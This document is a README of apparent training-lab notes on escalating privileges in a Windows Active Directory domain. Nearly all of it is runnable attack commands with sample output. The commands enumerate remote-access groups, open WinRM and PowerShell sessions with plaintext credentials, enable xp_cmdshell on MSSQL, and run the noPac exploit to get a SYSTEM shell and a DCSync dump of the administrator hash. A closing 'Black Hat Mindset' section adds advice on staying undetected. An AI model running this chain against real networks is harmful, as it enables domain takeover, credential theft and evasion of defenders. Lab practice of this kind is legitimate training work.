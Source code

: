 # Basic Methodology - Privileged Access README

This README explores techniques for gaining privileged access on Windows systems by enumerating groups, establishing remote sessions, interacting with SQL servers, and exploiting vulnerabilities like noPac/Sam_The_Admin.

## Table of Contents

- [Introduction](#introduction)
- [Setup and Prerequisites](#setup-and-prerequisites)
- [Enumerating Remote Desktop Users](#enumerating-remote-desktop-users)
- [Enumerating Remote Management Users](#enumerating-remote-management-users)
- [Creating PowerShell Credentials](#creating-powershell-credentials)
- [Establishing a PowerShell Session](#establishing-a-powershell-session)
- [Connecting via Evil-WinRM](#connecting-via-evil-winrm)
- [Enumerating SQL Instances with PowerUpSQL](#enumerating-sql-instances-with-powerupsql)
- [Querying SQL Server Version with PowerUpSQL](#querying-sql-server-version-with-powerupsql)
- [Using mssqlclient.py (Impacket)](#using-mssqlclientpy-impacket)
- [Enabling and Using xp_cmdshell](#enabling-and-using-xp_cmdshell)
- [Exploiting noPac/Sam_The_Admin Vulnerability](#exploiting-nopac-sam_the_admin-vulnerability)
- [Black Hat Mindset](#black-hat-mindset)
- [Resources](#resources)

## Introduction

Privileged access techniques aim to escalate privileges on Windows systems, often targeting remote access groups, SQL servers, and Active Directory vulnerabilities. This guide covers enumerating group memberships with PowerView, establishing sessions with PowerShell and Evil-WinRM, interacting with SQL servers using PowerUpSQL and Impacket, and exploiting the noPac/Sam_The_Admin vulnerability to gain SYSTEM or domain admin access.

## Setup and Prerequisites

- **Environment**: Windows host for PowerShell commands; Linux host for evil-winrm, mssqlclient.py, and noPac exploitation.
- **Tools**: Install evil-winrm (e.g., `gem install evil-winrm`), Python 3, Impacket (`pip install impacket`), git, and download PowerView, PowerUpSQL (PowerUpSQL.ps1), and noPac (via git clone).
- **Credentials**: Have usernames and passwords ready (e.g., forend:Klmcargo2, damundsen:SQL1234!).
- **IP Address**: Identify target IPs (e.g., 10.129.201.234, 172.16.5.150, 172.16.5.5).
- **Permissions**: Administrative access may be required for some commands (e.g., PowerShell sessions, SQL server interaction).

## Enumerating Remote Desktop Users

List members of the Remote Desktop Users group.

```powershell
Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"
```

Example Output:
```
ComputerName: ACADEMY-EA-MS01
GroupName: Remote Desktop Users
MemberName: INLANEFREIGHT\forend
```

## Enumerating Remote Management Users

List members of the Remote Management Users group.

```powershell
Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"
```

Example Output:
```
ComputerName: ACADEMY-EA-MS01
GroupName: Remote Management Users
MemberName: INLANEFREIGHT\damundsen
```

## Creating PowerShell Credentials

Set up credentials for remote PowerShell sessions.

```powershell
$password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force
$cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password)
```

## Establishing a PowerShell Session

Connect to a target using PowerShell remoting.

```powershell
Enter-PSSession -ComputerName ACADEMY-EA-DB01 -Credential $cred
```

Outcome: Opens a remote PowerShell session on the target.

## Connecting via Evil-WinRM

Establish a PowerShell session using WinRM.

```bash
evil-winrm -i 10.129.201.234 -u forend
```

Example:
```
Password: Klmcargo2
Output: Opens a PowerShell session on the target.
```

## Enumerating SQL Instances with PowerUpSQL

Discover SQL Server instances in the domain.

```powershell
Import-Module .\PowerUpSQL.ps1
Get-SQLInstanceDomain
```

Example Output:
```
Instance: 172.16.5.150,1433
ComputerName: ACADEMY-EA-SQL01
```

## Querying SQL Server Version with PowerUpSQL

Query the SQL Server version.

```powershell
Get-SQLQuery -Verbose -Instance "172.16.5.150,1433" -username "inlanefreight\damundsen" -password "SQL1234!" -query 'Select @@version'
```

Example Output:
```
Microsoft SQL Server 2019 (RTM)
```

## Using mssqlclient.py (Impacket)

Interact with an MSSQL server.

```bash
mssqlclient.py
mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth
```

```sql
SQL> help
SQL> enable_xp_cmdshell
SQL> xp_cmdshell whoami /priv
```

Example Output:
```
whoami: INLANEFREIGHT\damundsen
/priv: SeImpersonatePrivilege
```

## Exploiting noPac/Sam_The_Admin Vulnerability

Exploit the noPac/Sam_The_Admin vulnerability for privilege escalation.

```bash
sudo git clone https://github.com/Ridter/noPac.git
sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap
sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5 -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap
sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5 -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator
```

Example Output:
```
SYSTEM shell or DCSync output: Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

## Black Hat Mindset

- **Enumerate Privileges**: Use PowerView to identify users with remote access for targeted attacks.
- **Escalate via SQL**: Leverage SQL Server misconfigurations (e.g., xp_cmdshell) to execute OS commands.
- **Exploit Vulnerabilities**: Use noPac to gain SYSTEM or domain admin access through Active Directory flaws.
- **Stay Silent**: Blend in with legitimate sessions (e.g., WinRM, PowerShell) to avoid detection.

## Resources

- [PowerView GitHub](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
- [PowerUpSQL GitHub](https://github.com/NetSPI/PowerUpSQL)
- [Impacket GitHub](https://github.com/SecureAuthCorp/impacket)
- [noPac GitHub](https://github.com/Ridter/noPac)
- [Evil-WinRM GitHub](https://github.com/Hackplayers/evil-winrm)

